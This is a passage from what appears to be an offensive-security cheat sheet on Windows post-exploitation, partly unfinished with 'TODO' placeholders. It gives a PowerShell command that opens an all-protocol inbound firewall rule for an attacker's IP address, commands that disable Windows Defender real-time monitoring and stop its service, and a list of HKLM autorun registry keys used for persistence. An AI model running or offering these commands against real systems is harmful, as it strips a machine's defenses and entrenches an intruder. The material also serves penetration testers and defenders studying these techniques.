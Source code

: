 These commands can also be used in PowerShell.
{% endtab %}
{% endtabs %}

#### Create firewall rules

{% tabs %}
{% tab title="PowerShell" %}
TODO: add more

```powershell
New-NetFirewallRule -Name $rule_name -DisplayName $rule_name -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress $attackers_IP
```
{% endtab %}

{% tab title="cmd.exe" %}
add more
{% endtab %}
{% endtabs %}

### Disable Windows Defender

{% tabs %}
{% tab title="PowerShell" %}
TODO: add more info

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
{% endtab %}

{% tab title="cmd.exe" %}
add more info

```
sc config WinDefend start= disabled
sc stop WinDefend
```
{% endtab %}
{% endtabs %}

### Registry - HKLM&#x20;

#### Autoruns

The following keys can be used for persistence in addition to the low-privileged ones above.  Keys in HKLM require elevation to modify.

```
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon]
```
